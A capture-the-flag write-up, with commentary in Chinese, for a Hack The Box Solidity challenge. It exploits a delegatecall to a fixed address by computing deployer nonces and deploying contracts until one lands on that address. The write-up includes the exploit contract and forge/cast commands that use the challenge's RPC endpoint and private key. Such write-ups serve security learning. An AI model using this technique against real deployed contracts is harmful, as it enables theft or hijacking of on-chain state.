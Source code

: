```yaml
---
title: HTB Blockchain Challenge - Honor Among Thieves
date: {{ date }}
cover   : "/img/htb3.jpeg"
---
```

Portal Nonsense
===

### Portal.sol
```solidity=
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

contract PortalStation {
    
    mapping(string => address) public destinations;
    mapping(string => bool) public isPortalActive;
    bool isExpertStandby;

    constructor() {
        destinations["orcKingdom"] = 0xFC31cde4aCbF2b1d2996a2C7f695E850918e4007;
        destinations["elfKingdom"] = 0x598136Fd1B89AeaA9D6825086B6E4cF9ad2BD4cF;
        destinations["dawrfKingdom"] = 0xFc2D16b59Ec482FaF3A8B1ee6E7E4E8D45Ec8bf1;
        isPortalActive["elfKingdom"] = true;
    }

    function requestPortal(string calldata _destination) public payable {
        require(destinations[_destination] != address(0));
        require(isExpertStandby, "Portal expert has a day off");
        require(msg.value > 1337 ether);

        isPortalActive[_destination] = true;
    }

    function createPortal(string calldata _destination) public {
        require(destinations[_destination] != address(0));
        
        (bool success, bytes memory retValue) = destinations[_destination].delegatecall(abi.encodeWithSignature("connect()"));
        require(success, "Portal destination is currently not available");
        require(abi.decode(retValue, (bool)), "Connection failed");
    }

}


```

### 分析
* 這題很明顯是要透過 `delegatecall` 呼叫外部合約來改變自身合約的變數
* 但這邊有一個問題在於，我們要如何產生一個合約地址是destinations裡面的其中之一
* 對於一般帳戶而言，合約的地址是取決於 deployer address 與 nonce
* 因此我們可以透過城市計算出需要部署多少個合約，可以得到我們目標的合約地址

#### 計算合約地址
* 可以使用 eth-util或是 foundryup 的 cli計算
* `cast compute-address {deployer} --nonce {nonce}`
```python=
import subprocess
import os
dest = ["0xFc2D16b59Ec482FaF3A8B1ee6E7E4E8D45Ec8bf1", "0x598136Fd1B89AeaA9D6825086B6E4cF9ad2BD4cF", "0xFC31cde4aCbF2b1d2996a2C7f695E850918e4007", "0xB89EcCb84C7CA4D2d28ecb49617982D4FF4c8CcE"]
dest = [i.lower() for i in dest]

deployer = "0xaDb67e10Fa330db49e98201B4c5F19356CfA3f59"

for i in range(1,1000):
    ret = str(subprocess.check_output('cast compute-address '+deployer+ " --nonce " + str(i), shell=True))
    ret = ret.split(': ')[1].replace('\\n', '' ).replace("'", "")
    #print(ret)
    if ret.lower() in dest:
        print(i)
        print(ret)
        break

```

![image](https://hackmd.io/_uploads/r1hkR72_a.png)

* 只要我們生成130次合約，就可以取得目標地址




### Exploit
* 利用 delegatecall 來改變數

```solidity=
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

contract Delegate {
    mapping(string => address) public destinations;
    mapping(string => bool) public isPortalActive;
    bool isExpertStandby;
    bool public suc;
    bool public ret;
    constructor() payable {
        destinations["orcKingdom"] = 0xFC31cde4aCbF2b1d2996a2C7f695E850918e4007;
        destinations["elfKingdom"] = 0x598136Fd1B89AeaA9D6825086B6E4cF9ad2BD4cF;
        destinations["dawrfKingdom"] = 0xFc2D16b59Ec482FaF3A8B1ee6E7E4E8D45Ec8bf1;
        isPortalActive["elfKingdom"] = true;
    }
    receive() external payable {
    }
    function delegate(address _target) public {
        (bool success, bytes memory retValue) = _target.delegatecall(abi.encodeWithSignature("connect()"));
        require(success, "Portal destination is currently not available");
        require(abi.decode(retValue, (bool)), "Connection failed");
    }
}


```



* generate 130 
```python=
for i in range(131):
    ret = str(subprocess.check_output('forge create src/test.sol:test --rpc-url http://167.99.85.216:30676/rpc --private-key 0x2de3d450f2b9f28d5640560572511a56b1133ff1f39236fc40e51c6fb55e945c', shell=True))
    print(ret)


```
* ` cast send --rpc-url http://167.99.85.216:30676/rpc --private-key 0x2de3d450f2b9f28d5640560572511a56b1133ff1f39236fc40e51c6fb55e945c  0xACef632826fb9d4EF70cB70640b5F56b7474B3a9 "createPortal(string)" "orcKingdom"`

* `cast call --rpc-url http://167.99.85.216:30676/rpc --private-key 0x2de3d450f2b9f28d5640560572511a56b1133ff1f39236fc40e51c6fb55e945c  0xfD730FDDbD5b98471b7a0fE78d2CB0Fd0E5454BA "isSolved()"` 
